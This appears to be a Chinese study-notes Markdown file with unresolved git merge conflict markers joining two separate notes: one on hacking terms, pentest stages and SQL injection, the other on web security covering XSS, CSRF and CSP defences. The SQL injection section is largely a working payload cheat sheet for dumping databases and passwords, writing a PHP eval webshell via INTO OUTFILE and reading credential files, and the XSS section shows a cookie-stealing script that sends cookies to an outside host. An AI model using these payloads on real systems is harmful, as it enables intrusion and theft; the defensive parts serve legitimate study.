

<<<<<<< HEAD
# 网络安全

- 黑客(高级程序员)
- 骇客(DDOS)
- 红客(中国) Honcker

## 什么事黑客

> software cracker

- 白帽子
  - 专门研究或者从事网络安全行业的人，通常收骨玉各大安全公司，是提高网络、系统安全水平的主要力量
- 黑帽子
  - 专门研究木马、操作系统、寻找漏洞，并且以个人意志为出发点，攻击网络或者计算机
- 灰帽子
  - 专门研究木马、操作系统、寻找漏洞，并且以个人意志为出发点，攻击网络或计算机

## 黑客传奇

- Richard Stallman
- 史蒂夫 沃兹尼亚克
- linus
- ken tompson and Dannis Richard

## 骇客

- Kevin David Mitnick
- Adrian Lamo
- Jonathan James

## 黑客专业术语

- 病毒(编程死循环)和木马(蠕虫)
- webshell：通过web入侵的一种脚本工具，可以据此对网站服务进行一定程度的控制
- 肉鸡：被黑客入侵被长期驻扎的计算机或服务器
- 抓鸡：利用使用量大的程序的漏洞，使用自动化方式获取肉鸡的行为
- 漏洞：硬件、软件、协议等可利用安全缺陷，可能被攻击者利用，对数据进行篡改，控制等。
- 木马：通过向服务端提交一句简短的代码，配合本地客户端实现 webshell 功能的木马
- exp: exploit 利用工具
- poc: 验证漏洞
- 提权：OS低权限的账户将自己提升为管理员权限使用的方法 
- 后门：黑客为了对主机进行长期的控制，在机器上种植的一段程序或留下的一个**入口**
- 旁站入侵：同一个服务器入侵之后通过提权跨目录等手段拿到目标网站的权限
  - 旁站查询工具：WebRobot, 御剑，明小子，Web在线查询
- C 端入侵：即同 C 端下服务器入侵。如目标ip为192.168.1.253 入侵 192.168.1.* 的任意一台机器，然后利用一些黑客工具嗅探获取在网络上传输的各种信息。常用的工具有：Windows下的 Cain， Unix下有 Sniffit, Snoop, Tcpdump, Dsniff 等
- 渗透：利用漏洞
- 远程控制服务器
- root/administrator

## 渗透测试

- 黑河测试：在未授权的情况下，模拟黑客的攻击方法和思维方式，来评估计算机网络系统可能存在的安全风险。黑盒测试不同于黑客入侵，并不等于黑站。黑河测试考研的是中和的能力（OS, DB, Script, code, 思路，社工）

- 白盒测试：从内部处罚，知道源代码，代码审计

## 各种攻击

- APT攻击：Advanced Persistent Threat， 高级可持续性攻击，是指阻止（特别是ZF）或者小团体利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式

1. 极强的隐蔽性
2. 潜伏期长，持续性强
3. 目标性强

## 安全目标

> 先与攻击者发现和防止漏洞出现

- 攻击性安全（黑河的思维攻击并提前发现漏洞）
- 防护性安全（端口关闭）

## 渗透测试标准

1. [PETS](http://www.pentest-standard.org)
2. 前期交互阶段
3. 情报收集阶段
4. 威胁建模阶段
5. 漏洞分析阶段
6. 渗透攻击阶段
7. 后渗透测试阶段
8. 渗透测试报告

## 渗透测试项目

- 渗透测试范围
- 获得授权
- 渗透测试方法
  - 是否允许社会工程学
  - 是否允许拒绝服务攻击

## 渗透测试流程

- 渗透测试 VS 入侵

1. 明确目标

- 确定范围
- 确定规则
- 确定需求

2. 信息收集

- 基础信息
- 系统信息
- 应用信息
- 版本信息
- 服务信息
- 人员信息
- 防护信息

3. 漏洞探测

- 系统漏洞
- WebServer 漏洞
- Web 应用漏洞
- 其他端口服务漏洞
- 通信安全

4. 漏洞验证

- 自动化验证
- 手工验证
- 试验验证
- 登录猜解
- 公开资源利用

5. 信息分析

- 精准打击
- 绕过防御机制
- 定制攻击路径
- 绕过检测机制
- 攻击代码

6. 获取所需

- 实施攻击
- 获取内部信息
- 进一步渗透
- 持续性存在
- 清理痕迹

7. 信息整理

- 整理渗透攻击
- 整理收集信息
- 整理漏洞信息

8. 形成报告

- 按需整理
- 补充介绍
- 修补建议

## 经验分享

- 信息收集是关键
- 多看源码
- 多收集 0day



## 如何学习黑客技术

- 乌云
- i春秋
- freebuf
- 米斯特

- PHP 代码审计

- 搜索工具
  - 光速搜索、遍历工具
  
## 基本漏洞类型

- 弱口令 => 爆破\遍历
  - 比如：123456
  - xx.php?info=123

- SQL 注入(GET没有过滤)
- XSS 攻击
- 代码执行、命令执行
- 文件包含：xx.php?include=1.php
- 越权、逻辑
- 配置错误
- 敏感信息泄露


## 虚拟机

1. vm安装
2. 系统安装
3. vm tools
4. 快照创建
5. 网络配置
6. 导入导出
7. 克隆功能
8. 性能优化


### SQL 注入

``` PHP
<?php
$con=mysql_connect("localhost","root","root");
$id=@$_GET['id'];//通过get方式传递id的参数的值
if(!$con){
  die('Could not connect: ' . mysql_error());
}else{
  mysql_select_db("mst");
  $query="select * from $id";
  echo mysql_result(mysql_query($query), 0, "name");//columns
}
?>
```

``` sql
判断是否存在SQL注入
'
and 1=1
and 1=2

暴字段长度
Order by 数字

匹配字段
and 1=1 union select 1,2,..,n

暴字段位置
and 1=2 union select 1,2,..,n
 
利用内置函数暴数据库信息
version() database() user()

不用猜解可用字段暴数据库信息(有些网站不适用):
and 1=2 union all select version()
and 1=2 union all select database()
and 1=2 union all select user()

操作系统信息：
and 1=2 union all select @@global.version_compile_os from mysql.user 

数据库权限：
and ord(mid(user(),1,1))=114  返回正常说明为root
 
暴库 (mysql>5.0)
Mysql 5 以上有内置库 information_schema，存储着mysql的所有数据库和表结构信息
and 1=2 union select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from information_schema.SCHEMATA limit 0,1

猜表
and 1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=数据库（十六进制） limit 0（开始的记录，0为第一个开始记录）,1（显示1条记录）—

猜字段
and 1=2 Union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from information_schema.COLUMNS where TABLE_NAME=表名（十六进制）limit 0,1

暴密码
and 1=2 Union select 1,2,3,用户名段,5,6,7,密码段,8,9 from 表名 limit 0,1

高级用法（一个可用字段显示两个数据内容）：
Union select 1,2,3concat(用户名段,0x3c,密码段),5,6,7,8,9 from 表名 limit 0,1

直接写马(Root权限)
条件：

1. 知道站点物理路径
2. 有足够大的权限（可以用select …. from mysql.user测试）
3. magic_quotes_gpc()=OFF
select '<?php eval_r($_POST[cmd])?>' into outfile '物理路径'
and 1=2 union all select 一句话HEX值 into outfile '路径'

load_file() 常用路径：

1. replace(load_file(0×2F6574632F706173737764),0×3c,0×20)

2. replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32)) 上面两个是查看一个PHP文件里完全显示代码.有些时候不替换一些字符,如 “<” 替换成”空格” 返回的是网页.而无法查看到代码.

3. load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录

4. /etc tpd/conf tpd.conf或/usr/local/apche/conf tpd.conf 查看linux APACHE虚拟主机配置文件

5. c:\Program Files\Apache Group\Apache\conf \httpd.conf 或C:\apache\conf \httpd.conf 查看WINDOWS系统apache文件

6. c:/Resin-3.0.14/conf/resin.conf 查看jsp开发的网站 resin文件配置信息.

7. c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机

8. d:\APACHE\Apache2\conf\httpd.conf

9. C:\Program Files\mysql\my.ini

10. ../themes/darkblue_orange/layout.inc.php phpmyadmin 爆路径

11. c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置文件

12. /usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看

13. /usr/local/resin-pro-3.0.22/conf/resin.conf 同上

14. /usr/local/app/apache2/conf/extra tpd-vhosts.conf APASHE虚拟主机查看

15. /etc/sysconfig/iptables 本看防火墙策略
16. usr/local/app/php5 b/php.ini PHP 的相当设置
17. /etc/my.cnf MYSQL的配置文件
18. /etc/redhat-release 红帽子的系统版本
19. C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码

20. /etc/sysconfig/network-scripts/ifcfg-eth0 查看IP.
21. /usr/local/app/php5 b/php.ini //PHP相关设置
22. /usr/local/app/apache2/conf/extra tpd-vhosts.conf //虚拟网站设置
23. C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini
24. c:\windows\my.ini
25. c:\boot.ini

网站常用配置文件 config.inc.php、config.php。load_file（）时要用replace（load_file(HEX)，char(60),char(32)）

注：

Char(60)表示 <
Char（32）表示 空格

手工注射时出现的问题：

当注射后页面显示：

Illegal mix of collations (latin1_swedish_ci,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation 'UNION'

如：/instrument.php?ID=13 and 1=2 union select 1,load_file(0x433A5C626F6F742E696E69),3,4,user()

这是由于前后编码不一致造成的，

解决方法：在参数前加上 unhex(hex(参数))就可以了。上面的URL就可以改为：
/instrument.php?ID=13 and 1=2 union select 1,unhex(hex(load_file(0x433A5C626F6F742E696E69))),3,4,unhex(hex(user()))
```
=======
# Web 安全

## What Web

> World Wide Web 万维网，互联网应用

## Web1.0

- SQL 注入
- 文件包含
- 上传漏洞
- 挂马/暗面
- 命令执行

## Web2.0

- 钓鱼
- 框架漏洞
- 逻辑漏洞
- 数据劫持
- URL跳转
- CSRF
- XSS

## Web 安全问题

- 数量迅速增长
- 种类迅速增多
- 针对 Web 用户

招聘：Web安全工程师

## Web流程

- 客户端/前段
  - 钓鱼、暗链
  - XSS,点击劫持
  - CSRF,URL跳转

- 服务端/后端
  - SQL注入
  - 命令注入
  - 文件上传
  - 文件包含
  - 暴力破解

URL: Uniform Resource Locator

http://wovert.com/list/index.jsp?name=title&age=20#top

Schema:Host:path:Query String: Anchor

HTTP: Hyper Text Transfer Protocal

## 同源策略 (Same Origin Policy)

> 限制来自不同源的"document"或脚本，对当前"document"读取或设置某些属性。

### 不同源类型

- protocol
- port
- host

对于当前页面来说，页面内存放 JavaScript 文件的域并不重要，重要的是加载 JavaScript 页面所在的域是什么
a.com 通过一下代码`<script src="http://b.com/b.js></script>` 加载包 b.js 的 Origin 应该是 a.com 而非 b.com

在浏览器中，script, img, iframe, link 等标签可以跨域加载资源，而不受同源策略的限制。这些"src"属性的标签每次加载时，实际上是由浏览器发起了一次 GET 请求。不同于 XMLHttpRequest 的是，通过 src 属性加载的资源，浏览器限制了 JavaScript 的权限，使其不能读、写返回的内容。

XMLHttpRequest 可以访问来自同源对象的内容

window.XMLHttpRequest
window.ActiveXObject(new ActiveXObject("Microsoft.XMLHTTP")) // IE 6-
onreadystatechange
    readyState == 4
    status == 200
        responseText
oepn
send

XMLHttpRequest 受到同源策略的约束，不能跨域访问资源

如果 XMLHttpRequest 能够跨域访问资源，则可能会导致一些敏感数据泄露，比如 CSRF 的token，从而导致发生安全问题

- 目标域 Accesss-Control-Allow-Origin 授权允许跨域访问 

## Web 安全层次

- 代码层次
- 架构层次
- 运维层次

## 安全问题

- 用户身份被盗用
- 用户密码泄露
- 用户资料被盗取
- 网站数据库泄露

## XSS 跨站脚本攻击

> Cross Site Scripting

- 获取页面数据
- 获取 Cookies
- 劫持前段逻辑
- 发送请求

### XSS 攻击分类

- 反射型：URL 参数直接注入
- 存储行：存储到 DB 后读取时注入

### XSS 攻击注入点

- HTML 节点内容
- HTML 属性
- JavaScript 代码（后台用户的变量，用户输入的变量）
- 富文本

#### URL 参数直接注入

- 攻击用户url 地址：`http://domain/?from=<script src="https://domain.com/joke.js"></script>`

- 获取数据服务器- doamin.com/joke.js

``` js
var img = document.createElement('img')
img.width = 0;
img.hegiht = 0;
img.src='http://domain.com/joke/joke.php?joke=' + encodeURIComponent(document.cookie);
```

攻击用户 url 地址（使用短网址,dwz.cn）发给其他用户使用之后，获取数据服务器可以得到用户的cookies，并在浏览器设置获取cookies之后，获取用户数据。

#### HTML 节点内容

``` html
<div>{{content}}</div
<div><script></script></div>
```

#### HTML 属性

``` html


```

#### JavaScript 代码（后台用户的变量，用户输入的变量）

``` js
<script>
  var data = "#{data}";
  // hello";alert(1);" 用户输入的数据
  var data = "hello";alert(1);""
</script>
```

#### 富文本

- 富文本得保留HTML
- HTML 有 XSS 攻击风险

### 浏览器自带防御

- Koa: `ctx.set('X-XSS-Protection', 0);`
  - XSS 攻击打开，对 Chrome浏览器有效
  - 仅对 **HTML内容和属性**,富文本拦截
  - JavaScript 注入的不能拦截
  - 默认1：打开

### 防御 HTML 节点内容

``` html
<div>#{content}</div>
```

显示时候转义

``` js
var escapeHtml = function(str){
    if(!str) return '';
    str = str.replace(/</g,'&lt;');
    str = str.replace(/>/g,'&gt;');
    return str;
}
//输出语句
write(escapeHtml(content))
```

输入时转义

### 防御 HTML 属性

> 因为提前关闭引号

- 输出时转义

``` js
var escapeHtmlProperty = function(str) {
  if(!str) return '';
  str = str.replace(/"/g, "&quote;");
  str = str.replace(/'/g, "&#39;");
  str = str.replace(/ /g, "&#32;");
 return str;
}
//输出语句
write(escapeHtmlProperty(content))
```

合并函数

``` js
var escapeHtml = function(str) {
  if(!str) return '';
  // html5 之前 &也需要转义
  str = str.replace(/&/g,'&amp;');
  str = str.replace(/</g,'&lt;');
  str = str.replace(/>/g,'&gt;');
  str = str.replace(/"/g, "&quote;");
  str = str.replace(/'/g, "&#39;");
  // str = str.replace(/ /g, "&#32;");
  return str;
}
```

### 防御 JavaScript 代码

转义"\"

``` js
var escapeForJs = function(str) {
  if(!str) return '';
  str = str.replace(/\\/g, '\\\\')
  str = str.replace(/"/g, '\\"')
  return str;
}
```

转换成json: `JSON.Stringify(content)`

### 防御富文本

- `过滤（输入前（一次过滤）|输出前（性能问题））`

- 黑名单
- 白名单（保留部分标签和属性）

- 黑名单

``` js
var xssFilter = function(html){
    if(!html) {
        return '';
    } 
    // 黑名单
    html = html.replace(/<\s*\/?script\s*>/g, '');
    html = html.replace(/javascript:[^'"]*/ig, '');
    html = html.replace(/onerror\s*=\s*['"]?[^'"]*['"]?/ig,
    return html;
}
```

另一种JavaScript: `<a href="javascript:alert(1)">来接</a>`

``` js
onerror,onclick,onmouseover,onmouseout

```

### 推荐：白名单富文本 xss

cheerio 库

``` shell
# cnpm install cheerio -S
var xssFilter2 = function(html){
    if(!html) {
        return '';
    } 
    // 黑名单
    // html = html.replace(/<\s*\/?script\s*>/g, '');
    // html = html.replace(/javascript:[^'"]*/ig, '');
    // html = html.replace(/onerror\s*=\s*['"]?[^'"]*['"]?/ig, ''); 
    var cheerio = require('cheerio');
    var $ = cheerio.load(html, {
    withDomLvl1: true,
    normalizeWhitespace: false,
    xmlMode: false,
    decodeEntities: false
});
    // 白名单
    var whiteList = {
        // 'html':[''],
        // 'head':[''],
        // 'body':[''],
        'img': ['src'],
        'a': ['href']
    };
    var exclude = ['html','head','body'];
    $('*').each(function(index, elem){
        //console.log('elem before:' , elem.name);
        // 白名单过滤标签
        if(!whiteList[elem.name] && exclude.indexOf(elem.name) === -1) {
            $(elem).remove();
            //console.log('elem after:' , elem.name);
            return;
        }
        //console.log(elem.name,'==============', elem.attribs)
        // 白名单过滤属性
        for(var attr in elem.attribs) {         
            if(whiteList[elem.name].indexOf(attr) === -1) {
                //console.log(elem.name, attr)
                $(elem).attr(attr, null)
                //console.log(elem.name, elem.attribs)
            }
        }
        // console.log(elem)
    })
    // console.log('过滤前：', html);
    // console.log('过滤后：', $.html());
    return $.html();
    // return html;
}
```

### xss 模块

``` shell
# cnpm install xss -S`
var xssFilter = function(html){
    if(!html) {
        return '';
    }
    var xss = require('xss');
    var ret = xss(html);
    var ret = xss(html, {
        onIgnoreTag: function(){
            return '';
        }
    });
}
```

### CSP

> Content Security Policy

CSP 全称 Content Security Policy ,可以直接翻译为内容安全策略,说白了,就是为了页面内容安全而制定的一系列防护策略. 通过CSP所约束的的规责指定可信的内容来源（这里的内容可以指脚本、图片、iframe、fton、style等等可能的远程的资源）。通过CSP协定，让WEB处于一个安全的运行环境中。

- 内容安全策略
- 用于指定哪些内容可执行

有什么用?
我们知道前端有个很著名的**同源策略**,简而言之,就是说一个页面的资源只能从与之同源的服务器获取,而不允许跨域获取.这样可以避免页面被注入恶意代码,影响安全.但是这个策略是个双刃剑,挡住恶意代码的同时也限制了前端的灵活性,那有没有一种方法既可以让我们可以跨域获取资源,又能防止恶意代码呢?
答案是当然有了,这就是csp,通过csp我们可以制定一系列的策略,从而只允许我们页面向我们允许的域名发起跨域请求,而不符合我们策略的恶意攻击则被挡在门外.从而实现
需要说明的一点是,目前主流的浏览器都已支持csp.所以我们可以放心大胆的用了.

``` shell
指令说明
指令就是 csp 中用来定义策略的基本单位,我们可以使用单个或者多个指令来组合作用,功能防护我们的网站.
指令名         demo        说明
default-src     'self' cdn.example.com  默认策略,可以应用于js文件/图片/css/ajax请求等所有访问
script-src      'self' js.example.com       定义js文件的过滤策略
style-src           'self' css.example.com  定义css文件的过滤策略
img-src             'self' img.example.com  定义图片文件的过滤策略
connect-src     'self'                                  定义请求连接文件的过滤策略
font-src            font.example.com                定义字体文件的过滤策略
object-src      'self'                                  定义页面插件的过滤策略,如 <object>, <embed> 或者<applet>等元素
media-src           media.example.com               定义媒体的过滤策略,如 HTML6的 <audio>, <video>等元素
frame-src           'self'                                  定义加载子frmae的策略
sandbox             allow-forms allow-scripts   沙盒模式,会阻止页面弹窗/js执行等,你可以通过添加allow-forms allow-same-origin allow-scripts allow-popups, allow-modals, allow-orientation-lock, allow-pointer-lock, allow-presentation, allow-popups-to-escape-sandbox, and allow-top-navigation 策略来放开相应的操作

report-uri      /some-report-uri
```

#### 指令值

``` shell
所有以-src结尾的指令都可以用一下的值来定义过滤规则,多个规则之间可以用空格来隔开
值               demo                                    说明
*               img-src *                           允许任意地址的url,但是不包括 blob: filesystem: schemes.

'none'  object-src 'none'           所有地址的咨询都不允许加载

'self'  script-src 'self'           同源策略,即允许同域名同端口下,同协议下的请求

data:       img-src 'self' data:    允许通过data来请求咨询 (比如用Base64 编码过的图片).

domain.example.com  img-src domain.example.com      允许特性的域名请求资源

`*.example.com      img-src *.example.com`          允许从 example.com下的任意子域名加载资源

https://cdn.com img-src https://cdn.com     仅仅允许通过https协议来从指定域名下加载资源

https:      img-src https:      只允许通过https协议加载资源

'unsafe-inline'     script-src 'unsafe-inline'      允许行内代码执行

'unsafe-eval'           script-src 'unsafe-eval'            允许不安全的动态代码执行,比如 JavaScript的 eval()方法
```

#### 示例

``` shell
default-src 'self';   只允许同源下的资源
script-src 'self';    只允许同源下的js
script-src 'self' www.google-analytics.com ajax.googleapis.com;     允许同源以及两个地址下的js加载
default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self';    多个资源时,后面的会覆盖前面的
```

#### 服务器端配置

Apache服务

``` shell
在VirtualHost的httpd.conf文件或者.htaccess文件中加入以下代码
Header set Content-Security-Policy "default-src 'self';"
```

Nginx

``` shell
在 server {}对象块中添加如下代码
add_header Content-Security-Policy "default-src 'self';";
```

IIS

``` shell
web.config:中添加

<system.webServer>

  <httpProtocol>

    <customHeaders>

      <add name="Content-Security-Policy" value="default-src 'self';" />

    </customHeaders>

  </httpProtocol>

</system.webServer>
```

#### 参考链接

- https://www.zhihu.com/question/21979782
- https://content-security-policy.com/
- child-src connect-src default-src
  - iframe
- font-src frame-src img-src
- manifest-src media-src object-src
- script-src style-src worker-src

- <host-source> <scheme-source> 'self'
- 'unsafe-inline' 'unsafe-eval' 'none'
- 'nonce-<base64-value>' <hash-source>
- 'strict-dynamic'

- MDN 网站

### PHP 中防御 XSS

- 内置函数转义
- DOM 解析白名单
- 第三方库
- CSP

#### 内置函数转义

- strip_tags($cont)
- htmlspecialchars($cont, ENT_QUOTES)
  - &,<,>,',"
  - 默认不转义单引号
  - ENT_QUOTES 可以转义单引号

#### DOM 解析白名单

- PHP 5+
- DOMDocument class

#### 第三方库

- github.com

- HTML Purifier
  - library

``` php
require_once './library/HTMLPurifier.auto.php';
$purifier = new HTMLPurifier();
$content = $purifier->purify($cont)`
```

#### PHP第三方库

``` php
header('X-Xss-Protection: 0')
header("Content-Security-Policy: script-src 'self'")`
```

``` js
<script>alert(1)</script>
<div>12323</div>
<p>param</div>
 src="test.jpg"/>
```

## CSRF：跨站请求伪造攻击

- Cross Site Request Forgery
- 匿名发布评论等

### CSRF 原理

- 目标网站：a.com
- 攻击者网站：b.com

1. 用户登录A站(用户名密码)
2. A站确认身份
3. 通过B网站向A网站后端请求

### CSRF攻击防御

- B站向A栈请求
- 带A站 Cookies
- 不访问A站前段
- referer为B站

- 禁止第三方网站带 Cookies
  - same-site 属性(Chrome和Opera支持)
    - Strict

- 不访问A网站前段
  - 在前段页面加入验证信息
  - 验证码(随机)
  - token(用户绑定)
  - NodeJS: ccap验证码模块

## 前段 Cookies 安全性

## 点击劫持攻击

## 传输安全安全问题

## 用户密码安全问题

## SQL注入攻击

## 信息泄露和社会工程学

## 其他安全问题
>>>>>>> 39fece6aaa4b7e1abc20786df0bffc793fac4067
